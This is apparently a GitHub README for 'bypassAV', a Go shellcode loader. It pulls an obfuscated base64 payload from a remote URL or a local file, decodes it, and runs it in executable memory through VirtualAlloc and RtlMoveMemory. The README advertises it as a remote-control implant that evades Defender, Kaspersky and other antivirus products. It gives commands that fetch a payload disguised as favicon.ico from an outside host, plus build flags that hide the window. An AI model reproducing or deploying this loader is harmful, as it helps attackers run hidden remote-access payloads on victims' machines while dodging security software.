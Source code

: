
### change


```
package main


import (
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "net/http"
    "os"
    "strings"
    "syscall"
    "unsafe"
    "flag"
)
var (
    kernel32     = syscall.NewLazyDLL("kernel32.dll")
    VirtualAlloc = kernel32.NewProc("VirtualAlloc")
    RtlMoveMemory = kernel32.NewProc("RtlMoveMemory")
)
func runUrl(url string) {
    resp, _ := http.Get(url)
    body, _ := ioutil.ReadAll(resp.Body)
    resp.Body.Close()


    str1 :=strings.Replace(string(body), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )
    sDec,_ := base64.StdEncoding.DecodeString(str4)
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}


func ReadFile(filepath string){
    f, err := os.Open(filepath)
    if err != nil {
        fmt.Println("read file fail", err)
    }
    defer f.Close()
 
    fd, err := ioutil.ReadAll(f)
    if err != nil {
        fmt.Println("read to fd fail", err)
    }

    str1 :=strings.Replace(string(fd), "#", "A", -1 )
    str2 :=strings.Replace(str1, "!", "H", -1 )
    str3 :=strings.Replace(str2, "@", "1", -1 )
    str4 :=strings.Replace(str3, ")", "T", -1 )

    sDec,_ := base64.StdEncoding.DecodeString(str4) //base64解密
    addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
    _, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
    syscall.Syscall(addr, 0, 0, 0, 0)
}

func main() {

    var url string
    var code string

    flag.StringVar(&url, "u", "", "url")
    flag.StringVar(&code, "s", "", "shellcode")
    flag.Parse()

    if(len(os.Args) != 3){
        // fmt.Println("Usage:xxx.exe -u http://x.x.x.x/code.txt")
        // fmt.Println("Or xxx.exe -s base64_encode_shellcode")
        os.Exit(0)
    } else if url != "" {
        runUrl(url)
    }else{
        ReadFile(code)
    }
}

```

**shell.exe -u http://172.16.242.1/favicon.ico**

**shell.exe -s payload.txt**

# bypassAV
条件触发式远控 VT 6/70 免杀国内杀软及defender、卡巴斯基等主流杀软
## 原理
https://pureqh.top/?p=5412
## use
将shellcode填至go_shellcode_encode.py生成混淆后的base64 payload<br>
然后将生成的payload填至main.go build("b64shellcode")<br>
将main.go中的url替换为你vbs的某个网页或文本（局域网网页同样可以，但是需要程序可以正常使用时此网页需要可以访问）<br>
编译：go build -ldflags="-w -s -H=windowsgui"<br>
